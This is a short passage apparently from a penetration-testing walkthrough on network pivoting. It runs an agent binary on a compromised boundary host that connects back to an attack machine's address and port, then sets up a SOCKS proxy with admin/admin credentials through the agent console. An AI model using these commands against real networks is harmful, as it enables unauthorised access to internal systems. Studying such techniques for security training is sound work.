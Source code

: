 ```bash
windows_x64_agent.exe -c 192.168.168.71:9090 -s h3rmesk1t -reconnect 8
```

​At this time, the attack machine successfully establishes a connection with the boundary host, select the node to be used, and perform proxy settings:

```bash
help
Detail
use 0
socks 7777 admin admin
```

![](img/27.png)
